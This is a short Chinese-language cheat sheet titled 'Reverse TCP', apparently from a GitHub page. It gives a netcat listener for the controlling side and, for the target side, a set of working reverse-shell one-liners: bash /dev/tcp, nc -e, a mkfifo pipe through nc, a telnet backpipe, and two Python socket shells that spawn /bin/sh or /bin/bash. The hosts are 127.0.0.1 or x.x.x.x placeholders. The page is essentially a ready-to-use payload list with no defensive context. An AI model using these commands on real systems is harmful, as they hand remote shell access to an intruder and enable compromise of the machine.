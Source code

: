 # 反弹TCP，Reverse TCP

## 控制端

    nc -lvv -p 4444

## 被控端

    bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
    nc -e /bin/bash 127.0.0.1 4444
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f
    nc 127.0.0.1 2333|/bin/sh|nc 127.0.0.1 2444
    mknod backpipe p && telnet x.x.x.x 2333 0<backpipe | /bin/bash 1>backpipe


    python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'

    python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash","-i"]);'
